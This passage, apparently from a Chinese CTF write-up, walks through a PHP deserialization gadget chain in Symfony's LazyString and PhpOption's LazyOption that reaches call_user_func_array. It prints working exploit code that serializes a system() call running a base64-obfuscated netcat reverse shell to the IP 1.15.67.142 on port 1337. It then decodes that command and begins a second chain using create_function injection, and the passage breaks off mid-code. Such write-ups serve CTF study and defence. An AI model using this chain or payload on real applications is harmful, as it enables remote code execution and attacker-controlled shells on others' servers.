 ```php
    }
}

namespace {
    use Symfony\Component\String\LazyString;
    $la = new LazyString([new PhpOption\LazyOption("system",array('echo$IFS$9cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMS4xNS42Ny4xNDIgMTMzNyA+L3RtcC9m|base64$IFS$9-d|sh')),"get"]);
    echo urlencode(serialize($la));
}
```

其中。

```
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMS4xNS42Ny4xNDIgMTMzNyA+L3RtcC9m
```

对应：(一种反弹shell的方式)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.15.67.142 1337 >/tmp/f
```

关于`mkfifo`，可以看看https://www.cnblogs.com/52php/p/5840229.html

链子：

```
Symfony\Component\String\LazyString: serialize ==> __sleep()==>__toString()
==>
PhpOption\LazyOption: get()==>option()==>call_user_func_array
```

其中`return $this->value=($this->value)()`

我们给value赋值数组，一个是对象，一个是方法名。

![image-20220331132734161](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203311327280.png)



再看看feng师傅的链子

```php
<?php

namespace Symfony\Component\String{

    use PhpOption\LazyOption;

    class LazyString{
        public $value;
        public function __construct(){
            $a = new LazyOption();
            $this->value =[$a,'getIterator'];//这儿则是通过LazyOption的getIterator到option方法的。
        }
    }
}
namespace PhpOption{
    final class LazyOption{
        public $option = null;
        public $callback = 'create_function';
        public $arguments = ['',"}system(base64_decode('xxx'));//"];
    }
}
namespace {


```